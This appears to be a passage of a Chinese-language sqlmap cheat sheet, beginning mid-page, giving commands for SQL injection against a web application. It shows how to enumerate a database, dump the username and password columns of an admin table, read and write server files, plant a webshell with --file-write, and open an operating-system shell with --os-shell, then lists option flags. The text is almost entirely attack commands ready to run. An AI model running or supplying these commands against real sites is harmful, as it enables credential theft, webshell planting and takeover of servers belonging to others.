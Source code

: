 查询test数据库中有哪些表

sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 -D test -T admin –columns

查询test数据库中admin表有哪些字段

sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 -D test -T admin -C “username,password” –dump

dump出字段username与password中的数据

其他命令参考下面

### 从数据库中搜索字段

sqlmap -r “c:\tools\request.txt” –dbms mysql -D dedecms –search -C admin,password
在dedecms数据库中搜索字段admin或者password。

### 读取与写入文件

首先找需要网站的物理路径，其次需要有可写或可读权限。

–file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）
–file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）
–file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
\#示例：
sqlmap -r “c:\request.txt” -p id –dbms mysql –file-dest “e:\php\htdocs\dvwa\inc\include\1.php” –file-write “f:\webshell\1112.php”

使用shell命令：

sqlmap -r “c:\tools\request.txt” -p id –dms mysql –os-shell
接下来指定网站可写目录：
“E:\php\htdocs\dvwa”

\#注：mysql不支持列目录，仅支持读取单个文件。sqlserver可以列目录，不能读写文件，但需要一个（xp_dirtree函数）

## sqlmap详细命令：

- –is-dba 当前用户权限（是否为root权限）
- –dbs 所有数据库
- –current-db 网站当前数据库
- –users 所有数据库用户
- –current-user 当前数据库用户
- –random-agent 构造随机user-agent
- –passwords 数据库密码
- –proxy http://local:8080 –threads 10 (可以自定义线程加速) 代理
- –time-sec=TIMESEC DBMS响应的延迟时间（默认为5秒）

——————————————————————————————————

### Options（选项）：

- –version 显示程序的版本号并退出
- -h, –help 显示此帮助消息并退出
- -v VERBOSE 详细级别：0-6（默认为1）
- 保存进度继续跑：
